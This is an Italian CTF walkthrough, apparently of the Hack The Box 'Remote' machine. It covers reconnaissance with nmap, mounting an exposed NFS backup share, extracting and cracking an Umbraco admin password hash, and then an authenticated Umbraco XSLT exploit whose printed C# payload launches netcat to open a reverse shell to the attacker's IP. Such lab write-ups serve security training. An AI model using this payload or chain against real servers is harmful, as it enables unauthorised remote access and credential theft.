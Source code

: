 ## Information Gathering

Come qualsiasi CTF comincio con una prima analisi superficiale:

```
nmap -sV -A -T4 10.10.10.180
```
Scopro come servizi attivi, un webserver in ascolto sulla porta 80 ed un mount demon sulla porta 2049, puntante su */site_backups*.

A questo punto navigo un po nel sito web, trovo un form autenticativo per la parte di backoffice. Provo con delle credenziali basilari ma non succede nulla. Vedo se magari sono hardcoded nel BE, quindi monto il disco che è in ascolto in locale:

```
mount -t nfs 10.10.10.180:/site_backups /tmp/remote_htb/
```

Cerco la documentazione di Umbraco e trovo che i collegamenti a DB sono impostati all'interno del file Web.config, e la stringa identificativa è "umbracoDbDMS". Quindi eseguo un grep sul file di config:

```
cat Web.config | grep umbracoDbDMS
```

Trovo la stringa di riferimento e scopro che un file di backup del DB è salvato dentro il file *Umbraco.sdf*. Lo rintraccio all'interno della cartella *App_Data*, faccio un cat, strings ed head. Tramite il comando *head* trovo un po di stringhe interessanti ma confuse. Quindi devio il flusso su un file dump_pwd.txt, quindi scremo e trovo:

```                                                                                                    
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa
{"hashAlgorithm":"SHA1"}
smith@htb.local
8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA=
{"hashAlgorithm":"HMACSHA256"}
```

Rompo l'hash di admin (essendo uno sha1 risulta rompibile) con CrackStation (o John):
```
baconandcheese
```
Faccio quindi il login nell'apposito tab:
```
10.10.10.180/umbraco/#/login
```

## Web Exploitation

Studio il CMS sottostante e trovo la versione in running. Per questa versione rintraccio un exploit, il 46153.py. 
Dopo averlo studiato ne modifico il PoC in modo tale da poter eseguire NetCat che ho caricato in precedenza all'interno dell'Admin dashboard (il cui path globale, studiando la documentazione, scopro essere:v C:/inetpub/wwwroot/Media/):

```
'<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.147 4444 –e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "C:/inetpub/wwwroot/Media/1035/nc64.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```

Avvio nc in ascolto anche sulla mia macchina ed eccomi collegato tramite una reverse shell! 
